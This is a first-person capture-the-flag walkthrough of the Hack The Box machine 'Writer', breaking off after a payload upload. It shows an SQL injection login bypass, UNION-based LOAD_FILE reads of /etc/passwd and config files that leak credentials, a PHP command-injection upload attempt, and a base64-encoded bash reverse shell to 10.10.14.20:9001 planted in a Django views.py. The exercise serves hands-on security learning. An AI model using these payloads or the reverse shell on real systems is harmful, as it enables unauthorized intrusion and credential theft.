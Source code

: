 I'll start with a port scan using my alias `fscan` which launches a default script and version scan against the ports found from a full port scan.

<img src='Images/fscan.png'>

We see ssh on port 22, apache serving a website on port 80 and samba on 139/445. I'll quickly see what I can do over smb.

<img src='Images/smbmap.png'>

I don't have any access here. I'll revisit if I find some credentials.

<img src='Images/gobuster.png'>

Gobuster finds a directory called `administrative`. It leads to a login page:

<img src='Images/administrative.png'>

I'll test for SQL injection with the payload `admin'-- -`. This logs me in. I suspect the query is along the lines of 

`select * from users where username={username} and password=md5({password})`

so my injection malforms the query into

`select * from users where username=admin` 

which authenticates me as the admin user. I'll come back and examine the injection further if need be.

I get redirected to `/dashboard`.

<img src='Images/dashboard.png'>

clicking around I find a `/stories` directory.

<img src='Images/stories.png'>

It has the option to upload a `.jpg` file from the local computer or to upload a file from a url. 

<img src='Images/storiesadd.png'>

I'll upload a `jpg` and intercept the request in burpsuite. I'll append `.php` to the filename, change the mimetype to `application/x-php` and append a simple command injection payload after the magic bytes.

<img src='Images/bugmodified.png'>

I can see the file has sucessfuly upload to the `/static/img` folder. 

<img src='Images/staticimg.png'>

Visiting the url `static/img/bug.jpg.php?cmd=id` returns an error however. It seems the webpage isn't configured to execute `php` despite the extension.

<img src='Images/fail.png'>

I'll revisit the sql injection to see what I can do here. I know the username parameter is injectable. I'll try the payload `test' union select 1,2,3,4,5,6` for the username and a random password. Intercepting the response in burpsuite I see `2` gets reflected back onto the webpage as `welcome 2`

<img src='Images/union.png'>

Next I'll try changing the 2 for `LOAD_FILE('/etc/passwd')` and I see the contents of `/etc/passwd` are returned so I have LFI.

<img src='Images/loadfile.png'>

I'll create a quick python script to send the injection payload including the specified file as the first argument of the script to the login page, parse out the file contents and save the file. I'll use mysql's `TO_BASE64()` function to return the base64 encoded file to avoid HTML entity encoding in the response HTML.

<img src='Images/script.png'>

I'll check the website configuration by including the file `/etc/apache2/sites-enabled/000-default.conf`

<img src='Images/sites-enabled.png'>

It shows the root of the website is `/var/www/writer.htb` and there's a `.wsgi` file which I'll check out. It also points to a development site on port `8080` only accessible through localhost. If a can find an SSRF I could interact with this site.

<img src='Images/wsgi.png'>

There's a comment about an `__init__.py` file which I'll read next. The exact location of the file is a bit ambiguous as `from writer import...` could mean a file `writer.py` or a parent directory `/writer`, but trying the path `/var/www/writer.htb/__init__.py` works. This file leaks some credentials:

<img src='Images/__init__.png'>

From `/etc/passwd` I saw the user `kyle`. I'll try the credentials `kyle:ToughPasswordToCrack` against smb.

<img src='Images/authsmbmap.png'>

The credentials work and grant me read/write access to the `writer2_project` share. This is likely the development site only accessible from localhost on port `8080`. I'll use `smbclient //10.10.11.101/writer2_project -u kyle -p ToughPasswordToCrack` to access the share. This is interesting as I could write a payload into the share and if I can cause it to execute on the server I'll have RCE. Listing the contents of the share shows 

<img src='Images/writer_proj.png'>

`writer_web/urls.py` contains

```
from django.conf.urls import url
from writer_web import views

urlpatterns = [
    url(r'^$', views.home_page, name='home'),
]
```

This says any URI will redirect to `/home` and load `views.home_page`. This file imports `view.py` which contains the `home_page` function

```
from django.shortcuts import render
from django.views.generic import TemplateView

def home_page(request):
    template_name = "index.html"
    return render(request,template_name)
```

so I can write a reverse shell into the `home_page` function and it will execute when I load any page on the site. Since this site isn't accessible externally I'll need an SSRF to trigger the payload. An SSRF is when you send a specially crafted request to a server and the server executes a request on your behalf. This allows access to functionality you can't directly obtain. Luckily, when we uploaded the `.jpg` files to the `/stories` directory there was an option to upload from a url. If we get the server to process a request to `127.0.0.1:8080` we'll be able to execute our payload.

I'll use the reverse shell `/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.14.20/9001 0>&1"`, base64 encode it to avoid special characters and use `os.sytem(.)` to execute shell commands. All together `views.py` becomes

```
from django.shortcuts import render
from django.views.generic import TemplateView
import os

def home_page(request):
    os.system('echo -n L2Jpbi9iYXNoIC1jICIvYmluL2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMjAvOTAwMSAwPiYxIg== | base64 -d | bash')
    template_name = "index.html"
    return render(request,template_name)
```

I'll upload this to the share.
